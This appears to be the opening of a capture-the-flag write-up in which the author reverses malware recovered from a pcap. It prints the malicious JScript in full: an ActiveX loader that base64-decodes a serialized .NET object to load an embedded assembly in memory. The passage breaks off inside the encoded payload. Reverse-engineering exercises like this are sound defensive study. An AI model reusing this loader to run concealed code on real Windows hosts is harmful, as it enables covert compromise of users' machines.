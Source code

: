 ## So Stealthy

### [~$ cd ..](../)

>During an incident response, we captured the network traffic from a suspected compromised host. Could you help us reverse the installed malware?

We are given a suspicious pcap file, aptly named [suspicious pcap](suspicious.pcap). As usual, we began with HTTP traffic, and found a [suspicious payload](payload.xml) in 
the packet 8013.

The malicious script is as follows:

> ```javascript
>function setversion() {} 
>function debug(s) {} 
>function Trololo(b) { 
>	var yei1Euthoo = new ActiveXObject("System.Text.ASCIIEncoding"); 
> 	var oPohToo1em = yei1Euthoo.GetByteCount_2(b); 
> 	var apeuGho2aa = yei1Euthoo.GetBytes_4(b); 
> 	var xieBaf0eeZ = new ActiveXObject("System.Security.Cryptography.FromBase64Transform"); 
> 	apeuGho2aa = xieBaf0eeZ.TransformFinalBlock(apeuGho2aa, 0, oPohToo1em); 
> 	var do2quaiMie = new ActiveXObject("System.IO.MemoryStream"); 
> 	do2quaiMie.Write(apeuGho2aa, 0, (oPohToo1em / 4) * 3); 
> 	do2quaiMie.Position = 0; 
> 	return do2quaiMie; 
>} 
> 
>var dei0eiFu = "AAEAAAD/////AQAAAAAAAAAEAQAAACJTeXN0ZW0uRGVsZWdhdGVTZXJpYWxpemF0aW9uSG9sZGVy"+ 
>"AwAAAAhEZWxlZ2F0ZQd0YXJnZXQwB21ldGhvZDADAwMwU3lzdGVtLkRlbGVnYXRlU2VyaWFsaXph"+ 
>"dGlvbkhvbGRlcitEZWxlZ2F0ZUVudHJ5IlN5c3RlbS5EZWxlZ2F0ZVNlcmlhbGl6YXRpb25Ib2xk"+ 
>"ZXIvU3lzdGVtLlJlZmxlY3Rpb24uTWVtYmVySW5mb1NlcmlhbGl6YXRpb25Ib2xkZXIJAgAAAAkD"+ 
>"AAAACQQAAAAEAgAAADBTeXN0ZW0uRGVsZWdhdGVTZXJpYWxpemF0aW9uSG9sZGVyK0RlbGVnYXRl"+ 
>"RW50cnkHAAAABHR5cGUIYXNzZW1ibHkGdGFyZ2V0EnRhcmdldFR5cGVBc3NlbWJseQ50YXJnZXRU"+ 
>"eXBlTmFtZQptZXRob2ROYW1lDWRlbGVnYXRlRW50cnkBAQIBAQEDMFN5c3RlbS5EZWxlZ2F0ZVNl"+ 
>"cmlhbGl6YXRpb25Ib2xkZXIrRGVsZWdhdGVFbnRyeQYFAAAAL1N5c3RlbS5SdW50aW1lLlJlbW90"+ 
>"aW5nLk1lc3NhZ2luZy5IZWFkZXJIYW5kbGVyBgYAAABLbXNjb3JsaWIsIFZlcnNpb249Mi4wLjAu"+ 
>"MCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5BgcAAAAH"+ 
>"dGFyZ2V0MAkGAAAABgkAAAAPU3lzdGVtLkRlbGVnYXRlBgoAAAANRHluYW1pY0ludm9rZQoEAwAA"+ 
>"ACJTeXN0ZW0uRGVsZWdhdGVTZXJpYWxpemF0aW9uSG9sZGVyAwAAAAhEZWxlZ2F0ZQd0YXJnZXQw"+ 
>"B21ldGhvZDADBwMwU3lzdGVtLkRlbGVnYXRlU2VyaWFsaXphdGlvbkhvbGRlcitEZWxlZ2F0ZUVu"+ 
>"dHJ5Ai9TeXN0ZW0uUmVmbGVjdGlvbi5NZW1iZXJJbmZvU2VyaWFsaXphdGlvbkhvbGRlcgkLAAAA"+ 
>"CQwAAAAJDQAAAAQEAAAAL1N5c3RlbS5SZWZsZWN0aW9uLk1lbWJlckluZm9TZXJpYWxpemF0aW9u"+ 
>"SG9sZGVyBgAAAAROYW1lDEFzc2VtYmx5TmFtZQlDbGFzc05hbWUJU2lnbmF0dXJlCk1lbWJlclR5"+ 
>"cGUQR2VuZXJpY0FyZ3VtZW50cwEBAQEAAwgNU3lzdGVtLlR5cGVbXQkKAAAACQYAAAAJCQAAAAYR"+ 
>"AAAALFN5c3RlbS5PYmplY3QgRHluYW1pY0ludm9rZShTeXN0ZW0uT2JqZWN0W10pCAAAAAoBCwAA"+ 
>"AAIAAAAGEgAAACBTeXN0ZW0uWG1sLlNjaGVtYS5YbWxWYWx1ZUdldHRlcgYTAAAATVN5c3RlbS5Y"+ 
>"bWwsIFZlcnNpb249Mi4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdh"+ 
>"NWM1NjE5MzRlMDg5BhQAAAAHdGFyZ2V0MAkGAAAABhYAAAAaU3lzdGVtLlJlZmxlY3Rpb24uQXNz"+ 
>"ZW1ibHkGFwAAAARMb2FkCg8MAAAAAB4AAAJNWpAAAwAAAAQAAAD//wAAuAAAAAAAAABAAAAAAAAA"+ 
>"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAACAAAAADh+6DgC0Cc0huAFMzSFUaGlzIHByb2dy"+ 
>"YW0gY2Fubm90IGJlIHJ1biBpbiBET1MgbW9kZS4NDQokAAAAAAAAAFBFAABMAQMAEM5wWgAAAAAA"+ 
>"AAAA4AAiIAsBMAAAFAAAAAgAAAAAAADeMgAAACAAAABAAAAAAAAQACAAAAACAAAEAAAAAAAAAAQA"+ 
>"AAAAAAAAAIAAAAACAAAAAAAAAwBAhQAAEAAAEAAAAAAQAAAQAAAAAAAAEAAAAAAAAAAAAAAAjDIA"+ 
>"AE8AAAAAQAAAJAQAAAAAAAAAAAAAAAAAAAAAAAAAYAAADAAAAFQxAAAcAAAAAAAAAAAAAAAAAAAA"+ 
>"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAgAAAIAAAAAAAAAAAAAAAIIAAASAAAAAAAAAAA"+ 
>"AAAALnRleHQAAAA8EwAAACAAAAAUAAAAAgAAAAAAAAAAAAAAAAAAIAAAYC5yc3JjAAAAJAQAAABA"+ 
>"AAAABgAAABYAAAAAAAAAAAAAAAAAAEAAAEAucmVsb2MAAAwAAAAAYAAAAAIAAAAcAAAAAAAAAAAA"+ 
>"AAAAAABAAABCAAAAAAAAAAAAAAAAAAAAAMAyAAAAAAAASAAAAAIABQBgIwAAPA0AAAEAAAAAAAAA"+ 
>"nDAAALgAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAogIfFo0XAAAB"+ 
>"JdAGAAAEKA8AAAp9BQAABAIoEAAACgAAAigEAAAGACpeAAIDA28RAAAKHxZZbxIAAAp9BAAABCom"+ 
>"AAIoEwAACgAqABMwAwDDAQAAAAAAAAACcxQAAAp9AQAABAJzFQAACn0CAAAEAnMWAAAKfQMAAAQC"+ 
>"KBcAAAoAAnsBAAAEHwwfZnMYAAAKbxkAAAoAAnsBAAAEcgEAAHBvGgAACgACewEAAAQgAwEAAB8X"+ 
>"cxsAAApvHAAACgACewEAAAQWbx0AAAoAAnsBAAAEcg0AAHBvHgAACgACewEAAAQXbx8AAAoAAnsB"+ 